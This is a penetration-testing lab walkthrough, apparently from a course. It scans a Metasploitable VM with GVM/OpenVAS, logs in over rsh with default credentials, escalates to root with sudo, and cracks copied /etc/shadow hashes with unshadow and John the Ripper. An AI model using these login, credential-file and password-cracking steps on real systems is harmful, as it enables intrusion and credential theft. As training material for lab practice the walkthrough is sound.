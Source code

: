Some people get confused about the relationship between the popular OpenVas tool and GVM. OpenVas is a component of GVM that is launched through the GVM interface.

### Step 1: Start GVM services.

1. Start the GVM scanner using the **sudo gvm-start** command. You can also access the **gvm-start** script using the Applications menu on the Kali desktop, **Kali ->02-Vulnerability Analysis -> gvm start**.

┌──(kali㉿Kali)-[~]

└─$ **sudo gvm-start**

**Note**: You may receive the message “**GVM services are already running**.” If the browser does not automatically open, start your browser manually and navigate to **https://127.0.0.1:9392**. The Greenbone Security Assistant login screen will appear in the browser.

2. In the Greenbone Security Assistant login box, enter **admin** as the username and **kali** as the password.

Username: **admin**

Password: **kali**

### Step 2: Scan a host.

In this step, you will scan the Metasploitable vulnerable host using the GVM scanner. This scan may take some time, so be prepared to wait at least 20 or more minutes for it to complete.

1. The GVM Scanner application GUI should open in the browser. Select **Scans -> Tasks** from the menu bar. At the upper left of the **Tasks** window appear three icons. Select the **Task Wizard** icon that looks like a magic wand. Choose **Advanced Task Wizard** from the dropdown menu.
2. In the Advanced Task Wizard window, enter **Metasploitable** as the scan name. In the Target Host(s) field, enter the IP address of Metasploitable, **172.17.0.2**. Leave the rest of the settings unchanged and click **Create** to create the task and start the scan.
3. The Task window indicates the task is running. At the bottom of the window, the task Metasploitable is listed, and the status bar shows the percent complete. Wait until the status shows Done (100% complete). This could take 30 minutes or more.
4. Click the number **1** under the Reports column in the Metasploitable row, next to the status indicator. The report list opens with an entry for the current day and time and the task named Metasploitable.

Open the report by clicking the date and time link under the Date column. The report window opens. There are eleven tabs that show various results that were found during the scan. Click the **Results** tab. The vulnerabilities found are listed in order of severity.

We find a rexec exploit and try to use it.

##### Exploit

Package seems to be missing so here is a work around:

- curl -O http://http.us.debian.org/debian/pool/main/n/netkit-rsh/rsh-client_0.17-17+b1_amd64.deb
- dpkg -i rsh-client_0.17-17+b1_amd64.deb
- rlogin -l root 192.168.0.123
- apt-cache search rsh-client
- found rsh-redone-client?        # This worked for the cisco course.

1. To access the Metasploitable target to exploit the rexec vulnerability, you will need a remote shell client. Use apt-get to install a remote shell (RSH) client on the Kali Linux VM.

┌──(kali㉿Kali)-[~]

└─$ **sudo apt-get install rsh-client**

2. Attempt to log in to the Metasploitable target with the username **msfadmin** using **RSH**. The syntax for the **rsh** command is **rsh -l** [_username_] [_target IP or hostname_]

┌──(kali㉿Kali)-[~]

└─$ **rsh -l msfadmin 172.17.0.2**

3. The login is successful. The prompt changes to the msfadmin user at the remote computer. Use the **pwd** command to determine the remote directory.

msfadmin@metasploitable:~$ **pwd**

/home/msfadmin

4. Attempt to gain root access to Metasploitable using the **sudo su** command. When prompted for a password enter the **msfadmin** password that you uncovered earlier.

msfadmin@metasploitable:~$ **sudo su**

[sudo] password for msfadmin: **msfadmin**

root@metasploitable:/home/msfadmin#

5. At this point, you have full root access to the target computer and can execute commands, upload or download files, or add users. Type **exit** twice to return to the Kali CLI. A message should appear that says **rlogin: connection closed**.

You can copy the /etc/passwd and /etc/shadow files to get the usernames and hashed passwords.

Unshadow can combine the two files and the resulting file can be used by John the Ripper to find the clear text passwords.

```
unshadow passwd.txt shadow.txt > output.db
```

```
john output.db
```

Using wordlist
```
john output.db --wordlist=/usr/share/wordlist/rockyou.txt
```

You exploited the rexec remote access vulnerability that was discovered by GVM by downloading and installing a client that is compatible with rexec. To establish the session, you needed login credentials, so you used SMB enumeration with Nmap to discover clear text credentials on the target. Finally you connected to the target with the rexec client and used the credentials to initiate a session that gave you remote terminal access as root.

In Windows, the password hashes are stored in the [SAM database](https://en.wikipedia.org/wiki/Security_Account_Manager). SAM uses the LM/NTLM hash format for passwords.

```
john --format=lm crack.txt
```

